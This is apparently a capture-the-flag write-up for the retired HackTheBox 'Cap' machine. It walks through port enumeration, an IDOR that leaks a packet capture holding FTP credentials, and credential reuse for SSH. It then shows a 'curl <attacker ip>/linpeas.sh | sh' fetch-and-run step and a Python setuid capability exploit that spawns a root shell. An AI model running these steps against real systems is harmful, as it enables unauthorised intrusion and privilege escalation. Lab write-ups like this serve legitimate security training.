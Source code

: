 # HackTheBox Retired Machine - Cap (Linux)

## Enumeration
```
nmap -sV -sC -Pn <ip addr>
```

Result:
- 21-FTP (vsftpd 3.0.3)
- 22-SSH (OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0))
- 80-HTTP (gunicorn)


## Manual Web Crawling
- Possible IDOR on Security Snapshot page
	- Possible IDOR path: /data/[number].
	- Possible numbers are: 0,1,2,3,4,5,6.
  - Other numbers will redirect the user back to dashboard screen
  - Any number that has packet analysis content will be downloaded and inspected.
### Packet Analysis
- Packet Analysis on number 1-3 doesn't really contain any useful information
- Packet Analysis on number 0, contains:
	- Info on a user to access FTP (USER: nathan)
	- Info on password of a user to access FTP (Password: Buck3tH4TF0RM3!)


## Accessing FTP
Use the following credential
```
username: nathan
password: Buck3tH4TF0RM3!
```

## Accessing SSH
We can use the same credentials and the flag is on that user home directory called `user.txt`

### Privilege Escalation from SSH
! We need to find a directory that can be exploited to gain higher privilege !
* * *
1. Setting up LinPEAS in local directory
```
curl -L -O https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
2. Host the local directory that has the LinPEAS
```
sudo python3 -m http.server 80
```
3. From the victim machine, fetch the LinPEAS file without storing it locally
```
curl 10.10.16.41/linpeas.sh | sh
```
4. Let it run\
![Running LinPeas](./images/Cap-LinPeas.png)
5. Found the supposed vulnerable files and the capability that can be exploited!
![LinPeas Result.png](./images/Cap-LinPeas2.png)

## Exploiting Python 
```
/usr/bin/python3.8
>>> import os
>>> os.setuid(0)
>>> os.system("/bin/bash")
```
Result:\
![Exploit Python Capabilities](./images/Cap-Python.png)

Try to get into the parent directory, outside of the current working directory which is `/home/nathan/`

Root flag will be available at: `/root/root.txt`
